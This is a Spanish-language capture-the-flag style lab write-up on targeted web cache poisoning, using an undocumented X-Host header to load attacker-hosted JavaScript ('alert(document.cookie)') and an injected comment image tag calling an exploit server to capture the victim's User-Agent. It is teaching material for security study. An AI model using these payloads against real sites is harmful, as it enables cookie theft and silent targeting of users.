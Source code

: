 En esta clase profundizamos en un ataque avanzado de Web Cache Poisoning en el que es necesario descubrir una cabecera no documentada —en este caso ‘**X-Host**‘— para manipular cómo el servidor genera contenido que posteriormente se almacena en caché.

Tras identificar el punto vulnerable y confirmar que la cabecera ‘**X-Host**‘ afecta a la generación de URLs para recursos estáticos, utilizamos dicha cabecera para referenciar un archivo JavaScript alojado en un servidor controlado por el atacante, el cual contiene un payload como ‘**alert(document.cookie)**‘.

Sin embargo, el laboratorio añade una capa adicional de complejidad: el uso de la cabecera ‘**Vary: User-Agent**‘ implica que la caché discrimina las respuestas en función del navegador. Para asegurar que el contenido envenenado impacta a la víctima, es necesario identificar su User-Agent, lo cual conseguimos mediante una petición enviada desde un comentario malicioso publicado en la web.

Una vez determinado el User-Agent de la víctima, se ajusta la petición para que coincida con dicho valor, permitiendo que el servidor entregue la versión cacheada del recurso malicioso únicamente a esa víctima.

Esta clase demuestra cómo el envenenamiento de caché puede ser altamente dirigido y silencioso, explotando cabeceras olvidadas y manipulaciones de cliente que normalmente pasarían desapercibidas.

Solucion
Repetimos los pasos y aqui vamos a utilizar la cabecera (X-Host:)
![Pasted image 20250821211041.png](imagenes/Pasted image 20250821211041.png)
el cual me permite controlar el dominio donde se redirige para cargar el recurso resource/js/tracking.js
asi que configuramos el exploit
![Pasted image 20250821212043.png](imagenes/Pasted image 20250821212043.png)
luego tenemos que redirigirlo a un user-Agent asi que podemos utilizar un truco en algun post poniendo lo siguiente (<img src="https://exploit-0a930053038b901f80741be201a40053.exploit-server.net" />)
![Pasted image 20250821212203.png](imagenes/Pasted image 20250821212203.png)
nos fijamos en los logs
![Pasted image 20250821212431.png](imagenes/Pasted image 20250821212431.png)
copiamos y pegamos en la BS y recargamos la pagina
![Pasted image 20250821233755.png](imagenes/Pasted image 20250821233755.png)




